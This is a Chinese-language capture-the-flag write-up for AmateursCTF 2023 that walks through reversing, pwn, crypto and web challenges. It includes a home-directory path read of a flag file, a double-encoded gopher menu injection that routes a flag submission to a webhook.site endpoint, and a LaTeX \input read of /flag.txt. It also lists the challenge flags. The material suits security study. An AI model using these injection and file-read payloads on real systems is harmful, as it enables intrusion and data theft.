2A18:      ColorSync color profile 2.1, type lcms, RGB/XYZ-mntr device by lcms, 8796 bytes, 16-7-2023 21:42:44 "sRGB built-in"
2A18.zlib: zlib compressed data
7F3:       data
7F3.zlib:  zlib compressed data
25E4:      ASCII text
25E4.zlib: zlib compressed data
47:        ASCII text
47.zlib:   zlib compressed data
61C:       data
61C.zlib:  zlib compressed data
172A:      ASCII text
172A.zlib: zlib compressed data
244:       data
244.zlib:  zlib compressed data
1638:      data
1638.zlib: zlib compressed data
1852:      PostScript Type 1 font program data
1852.zlib: zlib compressed data
```

能看到一堆奇怪的东西，然后还有个字体

pdfinfo看到是LibreOffice导出的pdf，用LibreOffice Draw打开

即刻得到flag

`amateursCTF{0ut_0f_b0unds}`

## misc/q-warmup

> If a bit flips and no one is around to observe it, does it still cause a bug?
>
> This challenge was done on Qiskit version 0.42.1.

挖！Quantum、Qiskit，好高级的算法

但是它可重现啊

那我彩虹表不就有了

`amateursCTF{n0thing_qU4ntum_4b0ut_th1s_4t_All}`

## misc/Censorship Lite++

矣，好高级，不做了

## misc/legality

> When looking at licenses, there were too many licenses to pick on,  but I finally settled on AGPL. Using it, I wrote a very secure locker!
>
> However, I was using a SaaS and lost my password and they won't help me out, do you think you could try to find it for me?

源码都不给了是吗

但是这是AGPL啊

根据AGPL的“2. Basic Permissions.”，我们有“make, run and propagate”这个软件的权利！

因此要找到源代码


乐

看到`server: deno`，是个JS/TS项目

可是源码在哪呢

## rev/trick question

先用pycdc反编译，然后手动修一下`b64decode`的导入，解出来一个混淆过的`check`

然后手动改一下，写成pyc然后pycdc即可

第六部分是利用了ASCII可见字符最高为都为0

`amateursCTF{PY7h0ns_ar3_4_f4m1lY_0f_N0Nv3nom0us_Sn4kes}`

## rev/jsrev

首先这是个THREE.JS的项目

Spector.js没看到什么奇怪的东西

发现两个资源：`coords.json`和`collision-world.glb`

glb用blender打开，也没什么

以及可以发现这是一个THREE.JS的官方[example](https://github.com/mrdoob/three.js/blob/dev/examples/games_fps.html)（甚至注释标出了

比较一下

```bash
difft (curl -Ls https://github.com/mrdoob/three.js/raw/dev/examples/games_fps.html | psub) (curl -Ls https://jsrev.amt.rs/ | psub)
```

总的来说，多了个`coords.json`，glb的hash是一致的

```javascript
let positions = [];
await fetch('./coords.json')
.then((response) => response.json())
.then((data) => { positions = data;});
			
for (let i = 0; i < positions.length; i++ ){
    const [x, y, z] = positions[i];
    spheres[i].collider.set( new THREE.Vector3( x, y, z ), SPHERE_RADIUS );
}
```

那么把这个coords画出来？

掏出[OpenSCAD](https://openscad.org/)

```bash
node draw-coords.js
time openscad -o coords.stl  coords.scad
```

看不懂？试一下变换就有了

`amateursCTF{asK_4nD_thr33_5h4ll_r3c31v3}`

~~但是读英文好难，后面那个`c`我放大才看到右边比左边少一个像素~~

## rev/CSCE221-Data Structures and Algorithms

首先这个coredump不是coredump不能gdb

然后`list`是`.bss`的全局变量，位于`0x00404060`，用ghidra的Parse C Sources把main.h导进去，然后手动命名一下

`list_init`很简单，就是按顺序初始化链表

`list_mix`则是

```c
  cur = list->head;
  len = list->len;
  next = list->head->ptr;
  for (i = 1; i < len; i = i + 1) {
    xor = (listnode *)((ulong)cur ^ (ulong)next->ptr);
    cur = next;
    orgNext = next->ptr;
    next->ptr = xor;
    next = orgNext;
  }
```

遍历整个链表，链表的每一项的地址改为前一项和后一项的地址XOR，这里由于有`orgNext`，应该是不会崩溃的，测试也是如此，那么，我们只要有前一项的地址，就能XOR还原后一项

那这时直接转到`list`，`len = 0x1d`，链表第一项位于`004052a0`

但是，由于链表的node是连着分配的，内存地址也不会很远，通过segment offset算出文件偏移：18128，用ImHex打开即可

`amateursCTF{l1nk3d_bY_4n_xor}`

## pwn/ELFcrafting-v2

相对于v1：能放79字节，但是必须是ELF，有Magic检查

ELF32 header 52 octects，ELF64 56 octects，当然用32啊

第一版写好printer是142字节，继续减小

然后就有了`code1.asm`

但是还是不够，参考[一篇神奇的文章](https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html)，但还是不够，还有90字节

晚上关了电脑突然想到：诶你说我要是`mmap`一块RWX内存然后read stdin不就能解决了

于是就有了现在的版本

通过`mmap2`映射4K内存然后读取stdin（fd 0）然后JMP

`stage2.asm`是第二阶段的读取文件的源代码，这里可以有255字节，再也不用担心不够小了

甚至还贴心的加上了`exit`

- `code1.asm`：没压下去的版本

- `code2.asm`：测试syscall，因为压缩过ELF头的GDB和LLDB都识别不了
- `code3.asm`：另一个人给的，但是我本地测试时SIGSEGV

`amateursCTF{d1d_i_f0rg3t_t0_p4tch_32b1t_b1naries_t00!!!}`

## pwn/simpleOS

flag在img的0x6f200，即889扇区处，串口输出的`first availible sector: 945`说明，`fs.relative == 945`

此时make file只会在flag之后make，不可能make到flag，而disk里的file是不能open file打开的

这个shell约等于废物，只能做数学计算和mov

~~那就跳过去~~

## web/uwuctf

你说的对，我没了`/`没了`..`没了`./`我还是可以home啊

我就说怎么Dockerfile里面别的题目都是塞进`/srv/`里面这个塞进`/home/node/`里面

[https://uwuasaservice.amt.rs/uwuify?src=~/app/flag.txt](https://uwuasaservice.amt.rs/uwuify?src=~/app/flag.txt)

然后想办法解uwuify

```
amateuwsctf{so_wmao_this_fwag_is_gonna_be_a_wot_wongew_than_most_fwag_othew_fwags_good_wuck_have_fun_decoding_it_end_of_fwag}
```

然后要de-uwuify

```
amateursCTF{so_lmao_this_flag_is_gonna_be_a_lot_longer_than_most_flag_other_flags_good_luck_have_fun_decoding_it_end_of_flag}
```

好，看这样子解出来了，起码这个flag是符合英语部分语法的（（至少没有奇怪的数字和大小写混杂

## web/go-gopher

这题是注入，参考[RFC 1436](https://datatracker.ietf.org/doc/html/rfc1436)

用nc连一下

```
/m/s/w/A/w/go-gopher $ nc amt.rs 31290
1/submit/player
iWelcome to the flag submitter!         error.host      1
iPlease submit all your flags!          error.host      1
1Submit flags here!     /submit/user    ::      7000
0Get me more flags lackeys!!    URL:https://ctf.amateurs.team/  ::      7000
1Nice gopher proxy      /       gopher.floodgap.com     70
.
```

```
/m/s/w/A/w/go-gopher [SIGINT]$ nc amt.rs 31290
/submit/player
iHello player           error.host      1
iPlease send a post request containing your flag at the server down below.              error.host      1
0Submit here! (gopher doesn't have forms D:)    URL:http://amt.rs/gophers-catcher-not-in-scope  error.host      1
.
```

先用[webhook.site](https://webhook.site/)造个webhook

可以看到，非常简单的注入，就能让第三项变为我们的webhook

```
player		error.host	1
iText		error.host	1
0Submit here!	URL:http://webhook.site/a59b6079-5fc7-41de-a22e-0ad3a1d10e5a	error.host	1
iText1
```

```
gopher://amt.rs:31290/1/submit/player%2509%2509error%252Ehost%25091%250AiText%2509%2509error%252Ehost%25091%250A0Submit%2520here%2521%2509URL%253Ahttp%253A%252F%252Fwebhook%252Esite%252Fa59b6079%252D5fc7%252D41de%252Da22e%252D0ad3a1d10e5a%2509error%252Ehost%25091%250AiText1
```

注意要URL encode两次，用TAB

`amateursCTF{wh0_s@ys_goph3r_i5nt_web?}`

## web/gophers-revenge

限制了域名是amt.rs，找一下challenges，是配合web/cps remastered的服务器一起用的

是通过随机username和flag作为密码

这很简单，因为cps remastered会显示密码

```
player		error.host	1
iText		error.host	1
0Submit here!	URL:https://cps.amt.rs/register.php	error.host	1
iText1
```

```
gopher://amt.rs:31290/1/submit/player%2509%2509error%252Ehost%25091%250AiText%2509%2509error%252Ehost%25091%250A0Submit%2520here%2521%2509URL%253Ahttps%253A%252F%252Fcps%252Eamt%252Ers%252Fregister%252Ephp%25091%250AiText1
```

```
Thanks for sending in a flag! Use the following token once i get the gopher-catcher frontend setup: 04999857a4147d47f993828d2976bfeb
```

```
welcome, 08667. your password is amateursCTF{ye5._ h1s_1s_g0pher_h3ll}. log out
```

但是提交不上去

`amateursCTF{ye5._ h1s_1s_g0pher_h3ll}`

> amateursCTF{ye5._ h1s_1s_g0pher_h3ll} is not the right flag
> but the contents of flag.txt is the flag

试一下，有可能是flag.txt的内容被URL Encode过，坑是：`{}`没有被encode

`amateursCTF{ye5._+h1s_1s_g0pher_h3ll}`

## crypto/You get extra information 2

`amateursCTF{omg_it's_my_favorite_epic_thing_where_it_looks_like_a_binomial!!}`

离大谱的，直接z3solver解出来

## pwn/hex-converter-2

可以看到ghidra的分析

栈是这样的

高地址 -> `i` -> `name` -> `flag` -> 低地址

一样存在`gets`溢出，但是只能溢出到`i`

以及`i < 1`会停止，但是while里面是先打印再检查啊，那就算一次一个字符咱也能做出来啊

于是写solve，一次dump一个字符，虽然`nc`会有点慢

> u1s1，这次ctf刚开始学用pwntools，真的好好用，能省不少事

`amateursCTF{an0ther_e4sier_0ne_t0_offset_unvariant_while_l00p}`

## web/latek

reference to [the official writeup of USTC Hackergame 2022](https://github.com/USTC-Hackergame/hackergame2022-writeups/tree/master/official/LaTeX%20%E6%9C%BA%E5%99%A8%E4%BA%BA)

```latex
\documentclass{article}
\begin{document}
$$\input{/flag.txt}$$
Hello
\end{document} 
```

`amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`

## misc/Survey

`amateursCTF{surv3ys_h3lp_us_impr0v3_futur3_c0mp3tit1ons}`

## 总结

学到了好多东西

- 又一次使用了x86汇编，知道了`ENDBR64`
- 知道x86下，执行隐含可读

- 实践了栈溢出
- 了解了一点tcachebin
- 了解了py的`chr`、`ord`和`vars`
- 用了下`pycdc`
- 第一次有意义地使用OpenSCAD
- 学会了如何写超小的ELF
- 原来`mmap`可以用来分配内存
- 安装了zig
- gopher好玩
- 用了z3-solver、pwntools
- AVX Masked-Load侧信道攻击

### 奇奇怪怪的东西

- 比赛中途有人提前公布了crypto/You get extra information {1,2}的script

- 比赛结束前一小时才有人做出guessctf

- 官方题解.webp：

  

### 其他Writeup

- [daffainfo - zippper](https://github.com/daffainfo/ctf-writeup/tree/main/AmateursCTF%202023/zipper)
- [0xazr - lahoot](https://scribe.projectsegfau.lt/@0xazr/winning-race-condition-writeup-web-lahoot-amateursctf-2023-b4e6fddd7bb8)
- [official - sanity](https://gist.github.com/voxxal/fb69443f0a31bc6f2ddbce763d609935#sanity)
- [official - perfect sandbox](https://amateurs.team/writeups/AmateursCTF-2023/perfect-sandbox)

### 从别人的Writeup学到的

- py `marshal.dump`可以直接dump code
- 直接往shell塞\x00可以使后面的pipe不被处理
- `window.xxx`可以直接按ID获取
- linux可以mmap的最低线性内存地址由`vm.mmap_min_addr` sysctl决定
- AVX Masked-Load侧信道攻击
- `write` syscall提供无效地址只会返回错误而不会SIGSEGV
- `write` syscall提供一半有效一半无效的范围时只会打印有效的地址

### 最终得分



